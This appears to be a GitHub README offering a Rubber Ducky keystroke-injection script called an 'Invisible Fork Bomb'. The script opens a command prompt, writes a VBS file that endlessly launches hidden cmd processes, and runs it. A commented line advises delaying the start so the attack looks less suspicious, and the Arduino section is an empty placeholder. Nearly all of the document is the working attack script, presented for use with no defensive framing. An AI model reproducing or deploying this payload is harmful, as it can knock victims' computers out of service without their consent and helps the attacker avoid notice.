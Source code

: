 # Invisible Fork Bomb for Arduino and Ducky
The HID script creates a vbs that executes exponentially the software you want (Fork bomb).

# About...
Author: BlueArduino20

Version 1.0

# Code for Rubber Ducky

<pre><code>
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
REM STRING ping localhost -n 10
REM You can uncomment this ^ to delay 10 seconds before starting the fork bomb. (By this way it's less suspicious)
STRING start forkb.vbs
ENTER
</pre></code>

# Code for Arduino

(Wait for it)
